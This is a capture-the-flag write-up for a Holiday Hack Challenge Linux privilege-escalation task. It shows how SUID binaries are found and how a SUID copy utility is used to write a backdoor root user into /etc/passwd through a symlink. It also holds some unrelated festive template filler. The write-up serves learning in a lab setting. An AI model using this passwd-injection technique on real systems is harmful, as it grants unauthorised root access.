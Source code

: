 ```yaml
---
icon: material/text-box-outline
---
```


# Linux PrivEsc

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [LinuxPriveEsc](https://hhc23-wetty.holidayhackchallenge.com/socket.io)

## Objective

!!! question "Request"
    Rose Mold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

??? quote "Rose Mold"
    What am I doing in this saloon? The better question is: what planet are you from?

Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.

Whatever. Do you know much about privilege escalation techniques on Linux?

You're asking why? How about I'll tell you why after you help me.

And you might have to use that big brain of yours to get creative, bub.

## Hints

??? tip "Linux Privilege Escalation Techniques"
    There's various ways to escalate privileges on a Linux system.

??? tip "Linux Command Injection"
    Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.

## Solution

This was a really interesting challenge. I believe there are two ways to solve this. An easy way, and a hard way. The hard way is the path I took at first and never got to completion. The Linux kernel that is being used in this challenge is succeptiple to what is known as the "DirtyPipe" vulnerability. That is a specific bug that allows writing to memory pages and forcing the OS to write those changes to disk. I was not able to get this to work, but I believe it is an option in this challenge.<br><br>
I opted for the very simple solution of finding all executables that had the SUID bit set in the file permissions. If this bit is set, and you have permission to execute that file you will essentially be executing that file as the root user.<br><br>
There is a file copy utility "simplecopy" that can be used to edit the /etc/passwd file to add a new user with root permissions.

### Admonitions

!!! warning "Anchor the decorations"
    Ensure that all festive decorations, especially electrical ones, are securely anchored. We don’t want them floating off into the tropical sunset!

!!! info "Palm tree lighting"
    While on the island, make sure to hang your Christmas lights on a palm tree. It’s not only festive but also a great beacon for Santa to find you!

### Code blocks

```
find / -perm -u=s -type f 2>/dev/null 

files with suid

/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
```
```
mkdir source
cp /etc/passwd source/passwd
echo 'root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash' >> source/passwd
ln -s /etc destination
/usr/bin/simplecopy source/passwd  destination/passwd
```


## Response

!!! quote "Rose Mold"
    Yup, I knew you knew. You just have that vibe.

To answer your question of why from earlier... Nunya!

But, I will tell you something better, about some information I... found.

There's a hidden, uncharted area somewhere along the coast of this island, and there may be more around the other islands.

The area is supposed to have something on it that's totes worth, but I hear all the bad vibe toys chill there.

That's all I got. K byyeeeee.

Ugh... n00bs...
